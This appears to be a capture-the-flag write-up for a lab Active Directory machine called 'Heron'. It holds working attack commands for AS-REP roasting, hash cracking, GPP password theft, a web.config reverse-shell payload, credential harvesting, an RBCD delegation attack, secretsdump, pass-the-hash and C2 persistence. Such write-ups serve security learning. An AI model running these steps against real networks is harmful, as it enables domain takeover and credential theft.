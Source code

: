 
![](Heron_Cover.png)



## INFO

This is an assumed breach scenario. Heron Corp created a low-privileged local user account on a jump server for you.

```
pentest:Heron123!
```

Only the jump server is reachable from the external network.

```
└─# ssh pentest@10.10.174.182
```


Upload the tool [fscan](https://github.com/shadow1ng/fscan) in the jmp box, and map the internal network. 

```
pentest@frajmp:~$ ./fscan -h 10.10.174.1/24

(icmp) Target 10.10.174.181   is alive
(icmp) Target 10.10.174.182   is alive
[*] Icmp alive hosts len is: 3

10.10.174.181:445 open
10.10.174.181:139 open
10.10.174.181:135 open
10.10.174.181:80 open
10.10.174.181:88 open
10.10.174.182:22 open

[*] NetBios    [+] DC:mucdc.heron.vl    Windows Server 2022 Standard 20348
[*] WebTitle    http://10.10.174.181    title:Heron Corp
```

Cool ! There's a DC which is accessible only internally. Now we need reach the DC from our attacker box. 


Lets start a proxy tunnel , to  enumerate and breach the internal network .

```
└─# sshuttle -r pentest:'Heron123!'@10.10.174.182 10.10.174.1/24 -x 10.10.174.182
```

![](Heron_Sshuttle.png)


## BREACHING THE DOMAIN

Now , we can reach the DC from our attacker box. 

![](Heron_Corp.png)


Found list of usernames , for further enumerations.

![](Heron-Reach_Out.png)


Lets Roast the users.

```
└─# impacket-GetNPUsers -no-pass -usersfile user_ heron.vl/ -dc-ip 10.10.169.133
```

We got hash of samuel.davies, the account has `UF_DONT_REQUIRE_PREAUTH` set.


Crack the hash.
```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt samuel.davies_hash
```

![](Heron_Cracked.png)


Now, We have valid domain user credentials , and alot of new possibilities to breach the domain.

Run Bloodhound to see what level of access this user has, and other attack vectors.

```
└─# bloodhound-python --username samuel.davies --password 'l6fkiy9oN' --nameserver 10.10.169.133 --domain heron.vl --domain-controller MUCDC.heron.vl --dns-tcp --collectionmethod all --zip
```




```
└─# crackmapexec smb 10.10.169.133 -u samuel.davies -p l6fkiy9oN -M gpp_password
```


![](Heron_Gpp.png)

Cool !  Its the credentials of svc-web-accounting . !

```
└─# crackmapexec smb 10.10.169.133 -u svc-web-accounting-d  -p 'H3r0n2024#!' --shares
```

This account has got more rights / permissions . Now , we need a shell in the box.

![](Heron_Account.png)


Modify the web.config file :

```
<?xml version="1.0" encoding="utf-8"?>  
<configuration>  
  <location path="." inheritInChildApplications="false">  
    <system.webServer>  
      <handlers>  
        <add name="aspNetCore" path="execute.now" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />  
      </handlers>  
      <aspNetCore processPath="powershell" arguments="-e (POWERSHELL BASE64 PAYLOAD)" hostingModel="OutOfProcess" />  
    </system.webServer>  
  </location>  
</configuration>  
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```


Upload and trigger the payload @execute.now


![](Heron_Trigger.png)


WE got the reverse shell as heron svc-web-accounting. 

![](Heron_Shell__.png)

### Credentials Harvesting..



```
PS C:\webaccounting> cat C:\Windows\scripts\ssh.ps1
$plinkPath = "C:\Program Files\PuTTY\plink.exe"
$targetMachine = "frajmp"
$user = "_local"
$password = "Deplete5DenialDealt"
& "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"
```


Cool ! Local ADmin of the jump server.

```
└─# ssh _local@frajmp.heron.vl
```


![](Heron_Fra_jmp.png)


We can decode the krb5.keytab file i.e klist file  [with](https://github.com/sosdave/KeyTabExtract) . Lets copy the file to the victim and decrypt .


![](Heron_fra_jmp_hash.png)

Cool ! We got machine account hash . 



Password-reuse.

```
└─# crackmapexec smb MUCDC -u julian.pratt -p Deplete5DenialDealt
```


Re-Login to the SMB , with new credentials you got !

```
└─# impacket-smbclient heron.vl/julian.pratt:Deplete5DenialDealt@MUCDC
```


![](Herno_adm+prju.png)


## RBCD Attack  [RBCD ATTACK](../../AD_ATTACKS/RBCD%20ATTACK.md)

Cool ! adm_prju got some dope privilege!


![](Heron_Privilege.png)


--> First, if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added with Impacket's addcomputer.py 

But we already got hash of FRAJMP$


--> We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's rbcd.py script can be used for that purpose:

```
└─# impacket-rbcd heron.vl/adm_prju:ayDMWV929N9wAiB4 -action 'write' -delegate-from 'FRAJMP$' -delegate-to 'MUCDC$'
```

--> And finally we can get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. Impacket's getST.py example script can be used for that purpose.

```
└─# impacket-getST -spn 'cifs/MUCDC.heron.vl' -impersonate '_admin' heron.vl/FRAJMP$ -hashes :6f55b3b443ef192c804b2ae98e8254f7
```

This ticket can then be used with Pass-the-Ticket, and could grant access to the file system of the TARGETCOMPUTER.

```
└─# export KRB5CCNAME=_admin@cifs_MUCDC.heron.vl@HERON.VL.ccache
```

```
└─# impacket-secretsdump -k mucdc.heron.vl
```


WE OWN THE DC ! But No-Winrm / Upload a Reverse / C2 Shell for Persistence!

```
└─# impacket-wmiexec heron.vl/_admin@MUCDC -hashes :3998cdd28f164fa95983caf1ec603938
```


Upload a Reverse / C2 Shell for Persistence!


### Learned

--> Password Reuse , Multiple times , each time you got new set of credentials !

--> Regularly Check privileges of your new found users.

--> Credentials Harvesting , Need to enumerate MORE !

--< RBCD Attack !

